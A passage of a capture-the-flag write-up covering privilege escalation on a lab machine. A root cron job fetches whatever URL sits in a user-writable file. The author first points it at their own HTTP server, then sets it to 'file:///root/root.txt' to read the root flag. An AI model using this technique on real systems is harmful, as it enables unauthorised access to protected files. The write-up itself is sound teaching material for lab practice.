- At this point let's SSH

---

## PRIVILEGE ESCALATION

- In the `floris` home folder there is the `admin-area` folder
- It contains two files `input` and `report`
- The interesting fact is that, they day in which they are modified is the current one
- Which means that there should be a cronjob running on the backend using those files
- The `input` file has the following content

```
URL='http://127.0.0.1/'
```

- While the `report` file has an error 

```
WARNING: Failed to daemonise.  This is quite common and not fatal.
Connection refused (111)
```

- Which refers to the MySQL service running on the default port on 127.0.0.1
- One thing that we can do is to setup a HTTP server on the local machine and change the URL
- Let's run the classical `python -m http.server` on our machine
- Then modify the input file as follow

```
URL='http://{MyIP}:8000/ciao'
```

- After some time, we obtain a request on our HTTP sever

```
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.150 - - [12/May/2024 18:38:59] code 404, message File not found
10.10.10.150 - - [12/May/2024 18:38:59] "GET /ciao HTTP/1.1" 404 -
```

- And the relative HTTP 404 Error page on the `report` file
- It seems that it is searching for something and writing the output in the `report` file
- If it is, then we can just

```
URL='file:///root/root.txt'
```

- After a while

``` bash
floris@curling:~/admin-area/$ cat report
<ROOT-FLAG> 
```

---

## FURTHER EXPLANATION
